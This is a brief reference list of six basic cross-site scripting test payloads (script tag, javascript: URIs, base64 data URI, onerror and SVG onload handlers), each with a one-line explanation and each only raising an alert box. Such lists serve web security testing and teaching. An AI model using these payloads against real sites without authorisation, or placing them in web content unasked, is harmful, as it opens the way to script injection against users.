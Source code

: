 ##Basic Script Injection:
<script>alert("XSS")</script>
This payload will inject a script that shows an alert box with the message "XSS".

##Image Source with JavaScript:

<img src="javascript:alert('XSS')">
This payload tries to execute JavaScript code by setting it as the source of an image tag.

##Anchor Tag with JavaScript:

<a href="javascript:alert('XSS')">Click me</a>
This payload tries to execute JavaScript code when the link is clicked.

##Data URI:

<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">Click me</a>
This payload uses a data URI to execute JavaScript. When clicked, it will execute the script alert('XSS').

##Event Handler Injection:

<img src="image.jpg" onerror="alert('XSS')">
This payload attempts to execute JavaScript code when the onerror event is triggered.

##SVG Injection:

<svg/onload=alert('XSS')>
This payload tries to execute JavaScript code when the SVG image is loaded.
